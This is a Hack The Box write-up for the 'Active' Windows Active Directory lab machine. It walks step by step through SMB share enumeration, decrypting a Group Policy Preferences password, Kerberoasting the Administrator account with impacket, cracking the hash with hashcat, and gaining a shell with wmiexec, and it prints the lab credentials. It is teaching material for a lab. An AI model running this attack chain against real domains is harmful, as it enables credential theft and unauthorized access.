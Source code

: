 ```yaml
---
title: "Writeup: Active from Hack The Box"
author: Asier Núñez
pubDatetime: 2025-01-08T19:51:29.606Z
slug: active-writeup
featured: false
draft: false
tags:
  - Windows
  - Active Directory
  - Security
  - Ethical Hacking
  - GPP
  - SPN
  - Hashcat
  - TGT
description: "Writeup for the Active machine from Hack The Box, a Windows Active Directory"
---
```


# Initial Foothold

If we start by enumerating the SMB shares, we can see that we have READ permissions at `Replication`.

```bash
crackmapexec smb 10.129.93.100 -u '' -p '' --shares
```

![CME-Shares](@assets/images/writeups/htb/active/cme-shares.png)

In one of the folders, we can find a file called `Groups.xml` which contains the password for the `SVC_TGS` user.
This password is encrypted using the `Group Policy Preferences` method. To decrypt it, we can use the `gpp-decrypt` tool that uses the AES key that was made public by Microsoft.

![GPP-Decrypt](@assets/images/writeups/htb/active/gpp-decrypt.png)

```
SVC_TGS:GPPstillStandingStrong2k18
```

Once we have the password, we can check if this user has access to any other share.

```bash
crackmapexec smb 10.129.93.100 -u SVC_TGS -p 'GPPstillStandingStrong2k18' --shares
```

![CME-Shares-SVC](@assets/images/writeups/htb/active/cme-shares-svc.png)

Under the `Users` share, we can find the `user.txt` flag.

# Privilege Escalation

If we check for users with SPNs using `GetUserSPNs.py`, we can see that the `Administrator` user has an SPN associated.

```bash
impacket-GetUserSPNs.py active.htb/SVC_TGS -dc-ip 10.129.93.100
```

![SPNS](@assets/images/writeups/htb/active/spns.png)

As we see in the previous image, the `Administrator` user has an SPN associated with the `cifs` service. This means that we can request a TGS for this service and try to crack it to obtain the password.

```bash
impacket-GetUserSPNs.py active.htb/SVC_TGS -dc-ip 10.129.93.100 -request
```

![SPNS-Request](@assets/images/writeups/htb/active/spns-request.png)

Now with the help of `hashcat`, we can crack the TGS.

```bash
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

```
administrator:Ticketmaster1968
```

Now we can use `wmiexec.py` to execute commands as the `Administrator` user.

```bash
impacket-wmiexec.py active.htb/administrator:Ticketmaster1968@10.129.93.100
```

![WMIExec](@assets/images/writeups/htb/active/wmi-exec.png)
